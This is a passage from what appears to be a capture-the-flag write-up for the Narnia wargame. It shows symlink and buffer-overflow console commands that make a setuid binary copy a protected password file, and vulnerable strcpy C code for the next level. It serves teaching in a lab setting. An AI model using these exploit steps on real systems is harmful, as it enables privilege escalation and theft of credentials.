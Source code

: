 At first glance this looks a bit more complicated. However it is just another
buffer overflow (line 13 and 22). This time however we don't control the stack, 
we control where the file gets written to. `/dev/null` is not a useful place
for data, and we want the contents of `/etc/narnia_pass/narnia4`. As `narnia3` runs 
setuid narnia4, it can do that for us.

First we determine that we need 32 characters to overflow the buffer. Then anything
beyond that will get written to the ofile. So the plan is to to create a symlink to
`narnia4` that is 32 characters long, and then write that to the target. The issue here
is that the source path's last 16 characters need to be the same as the target.
So to do this I created the following directory and symlink:

{% highlight console %}
narnia3@melinda:/narnia$ mkdir -p /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4
{% endhighlight %}

Now when we pass that to `narnia3`:

{% highlight console %}
narnia3@melinda:/narnia$ ./narnia3 `python -c "print '/tmp/' + 'x'*27 + '/tmp/narn4'"` 
copied contents of /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4 to a safer place... (/tmp/narn4)
narnia3@melinda:/narnia$ cat /tmp/narn4 
[password]
{% endhighlight %}

It's a little odd, but I hope you understand what happened. The last part of the 
first path has to be a valid path, so that it can be written to. That's why we have 
the double `/tmp` setup.

## Level 04 ##

{% highlight c linenos %}
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
	int i;
	char buffer[256];

	for(i = 0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));

	if(argc>1)
		strcpy(buffer,argv[1]);

	return 0;
}
{% endhighlight %}

MOAR OVERFLOWS. This time you'll notice something at line 6. What this does
is [store the user environment](http://man7.org/linux/man-pages/man7/environ.7.html).
This then get zerod out inside `main` to prevent us from storing any shellcode
in environment variables. However we might still be able to write `EIP`, so using the
trusty pattern generator from before
